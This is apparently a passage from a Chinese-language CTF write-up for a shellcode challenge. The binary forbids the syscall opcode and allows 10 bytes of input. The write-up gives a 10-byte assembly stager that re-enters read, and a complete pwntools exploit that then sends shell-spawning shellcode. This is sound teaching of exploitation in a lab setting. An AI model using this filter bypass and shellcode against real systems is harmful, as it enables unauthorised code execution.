 程序在随机地址开一个mmap，大小4KB。

然后读入10字节到`haystack`里面，用`memmem`搜索有没有`0x0F05`，也就是`syscall`，如果有，不让执行。

所以这题要在禁用`syscall`的情况下，来getshell，并且只能利用10字节的空间。空间太小，肯定不能直接使用shellcode，因此这题肯定是要绕过10字节限制，把shellcode写到mmap里。

唯一能控制mmap的地方是`read`函数，因此需要在10字节的空间里面，实现对`read`参数的控制。

![shellcode-3](./shellcode-3.png)

只需控制`rdx`，然后跳转到`mov edx, 0Ah`，之后，即可无限制写入shellcode。

payload：

```asm
pop rdx      ; 1B
sub edx, 68  ; 4B
push rdx     ; 1B
mov rdx, r11 ; 3B, 此处r11 = 0x246
ret          ; 1B
```

exp:

```python
from pwn import *
context.log_level = 'DEBUG'

context(os="linux", arch="x86-64")

p = process("./shellcode")
# p = gdb.debug("./shellcode")

shellcode='''
pop rdx
sub rdx, 68
push rdx
mov rdx, r11
ret        
'''
print(asm(shellcode))
payload = asm(shellcode).ljust(10, b'\x90')
p.send(payload)
p.send(asm(shellcraft.sh()))
p.interactive()
```

### crypto-myez_encode
